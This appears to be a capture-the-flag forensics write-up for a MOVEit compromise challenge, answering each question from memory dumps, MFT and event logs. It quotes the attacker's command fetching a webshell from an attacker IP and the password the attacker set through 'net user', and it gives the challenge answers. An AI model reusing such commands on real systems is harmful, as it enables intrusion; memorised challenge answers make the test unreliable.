 **Sherlock Scenario:**
We have unfortunately been hiding under a rock and did not see the many news articles referencing the recent MOVEit CVE being exploited in the wild. We believe our Windows server may be vulnerable and has recently fallen victim to this compromise. We need to understand this exploit in a bit more detail and confirm the actions of the attacker & retrieve some details so we can implement them into our SOC environment. We have provided you with a triage of all the necessary artifacts from our compromised Windows server. PS: One of the artifacts is a memory dump, but we forgot to include the vmss file. You might have to go back to basics here...


**Given:**
- .vmem
- Rapid Triage Directory (Kape)
- Windows Event Logs (C:\Users\johnn\Downloads\SherlockPractice\iliketo\Triage\Triage\uploads\auto\C%3A\Windows\System32\winevt\Logs)
- IIS Log (Microsoft Internet Information Services) - C:\Users\johnn\Downloads\SherlockPractice\iliketo\Triage\Triage\uploads\auto\C%3A\inetpub\logs\LogFiles\W3SVC2
- SQL Source file - C:\Users\johnn\Downloads\SherlockPractice\iliketo\Triage\Triage\uploads


**Data Preparation:**

**Memory Dump (kali)** - Warning- This won't work because the question states that  vmss file is missing so use "strings" instead
```
python3 vol.py -f '/home/kali/Downloads/Sherlock/volatility3-1.0.0/volatility3-1.0.0/I-like-to-27a787c5.vmem' windows.info
```




**Creating MFT output CSV**
```
.\MFTECmd.exe -f 'C:\Users\johnn\Downloads\SherlockPractice\iliketo\Triage\Triage\uploads\ntfs\%5C%5C.%5CC%3A\$MFT' --csv C:\Users\johnn\Downloads\SherlockPractice\iliketo\ --csvf MFT.csv
```



**EvtxECmd.exe**
Note: cd to \EvtxeCmd path first the run the bellow command


Creating kape_event_log_Security.csv from Security log
```
.\EvtxECmd.exe -f 'C:\Users\johnn\Downloads\SherlockPractice\iliketo\Triage\Triage\uploads\auto\C%3A\Windows\System32\winevt\Logs\Security.evtx' --csv C:\Users\johnn\Downloads\SherlockPractice\iliketo\ --csvf kape_event_log_security.csv
```











**Questions**

- Name of the ASPX webshell uploaded by the attacker?

Run the following "strings" command to grep .aspx extensions from the memory dump.

```
 strings ./I-like-to-27a787c5.vmem | grep .aspx
```

It's definitely suspicious as we can see the download link and files

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/da0573c8-dfbb-40a6-8bbf-9e2dd74bcb75)


Also if we scroll down, we can see the command wget for downloading the suspicious move.aspx file

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/2bb7d595-8fae-4652-9f25-33c092c3cb3a)


Answer: move.aspx


- What was the attacker's IP address?

Output from previous question

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/7728c6ee-b3d7-4925-8950-a1b44f448c66)


Answer: 10.255.254.3

- What user agent was used to perform the initial attack?

IIS Log

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/119787c8-791c-47a8-a719-2cff6b5806d2)



Answer: Ruby


- When was the ASPX webshell uploaded by the attacker?

Upload our generated MFT.csv to Timeline Explorer, then seach for "move.aspx"

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/ce974463-a033-43d4-890e-36f29e72fc36)


Answer: 12/07/2023 11:24:30


- The attacker uploaded an ASP webshell which didn't work, what is its filesize in bytes?

From Microsoft Defender Event logs, we can see the malicious warning state that the name is "backdoor;ASP/Webshell!MSR". It also indicate the malicious file and path. From this we know that "moveit.asp" is the cause of Microsoft Defender to take action against it.

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/992a6ffb-9afb-4a31-b9e0-970ff468a080)


Now, we have the the of the malicious webshell file, we just need to go back to our "MFT.CSV" in Timeline Explorer and search for the keyword "moveit.asp" to obtain the size of file

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/de538c43-6d85-4b8c-8ca1-a4dd461f14fc)



Answer: 1362

- Which tool did the attacker use to initially enumerate the vulnerable server?

IIS Log

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/56e3091f-eec3-463e-b1bd-5584ea76a2fa)



Answer: nmap

- We suspect the attacker may have changed the password for our service account. Please confirm the time this occurred (UTC)

Open Security log event CSV in TImeline explorer and filter for event 4624 (password reset)

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/a7d4bb00-6a8b-4a39-ba9f-88fb284eb067)




Answer: 12/07/2023 11:09:27



- Which protocol did the attacker utilize to remote into the compromised machine?

In windows security log, search for the suspicious IP "10.255.254.3" with event code 4624 (Success logon)

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/78b82c73-2403-462a-842e-943ef7014f1e)



If we further inspect the event, we'll see the the Logon type is 10 which corresponds to RDP

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/b6a547cd-58f0-47fb-ac43-c1e2d393252e)



Answer: RDP

- Please confirm the date and time the attacker remotely accessed the compromised machine?


Follow up the previous question with event 4624, we we inspect XML view, we can see the actual system time that the attack logon to the machine

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/f7eedf53-662e-4838-8b7f-0014e9ff3397)


Alternatively, we can filter for event 4624 in windows security log in form of CSV

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/519a33d8-9bd0-4e92-88f5-a8802f6a9ae4)



Answer: 12/07/2023 11:11:18


- What was the useragent that the attacker used to access the webshell?

IIS Log

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/ada68c97-57db-4d45-9898-9b107428cd00)



Answer: Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0


- What is the inst ID of the attacker?

Open moveit.sql in any editor and search for "2023-07-12" because we know that is the date where the attack happened.

We see some interesting information here and the corresponding "inst_add" that we're looking for

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/4f68d5bb-13ab-4911-ae41-0c9e133358da)



We know the format that the potential inst ID that we're looking for is in this format (the value locates after 'inst_add' )

```
1,'2023-06-14 02:21:48','inst_add',0,
```

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/202ac76a-a0b6-4a93-b803-0f0248ea21e1)



Answer: 1234



- What command was run by the attacker to retrieve the webshell?

Run the following "strings" command to grep .aspx extensions from the memory dump.

Command Line:
```
strings ./I-like-to-27a787c5.vmem | grep .aspx 
```
![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/ebce06b7-b60c-4efa-8827-98e712ee1396)




Answer: wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx

- What was the string within the title header of the webshell deployed by the TA?


![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/a108fc21-6944-4b0f-873d-077390626d38)


When grepping string from .vmem with "move.aspx", we encounter some kind of form. Therefore, we want to try to inspect the whole form by running the following command:

```
strings ./I-like-to-27a787c5.vmem | grep 'form name="cmd"' -A 40 -B 20
```

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/65cc20b2-6980-4846-9c8c-64db077d7e86)


Answer: 

- What did the TA change the our moveitsvc account password to?

Run the strings command on .vmem and filter for keyword "net user"


```
strings ./I-like-to-27a787c5.vmem | grep "net user"    
```

![image](https://github.com/jirayus013t/cybersecurityprojects/assets/49973180/2ff1dc1b-ee34-4c1e-b631-df3c1d61613a)


Answer: 5trongP4ssw0rd
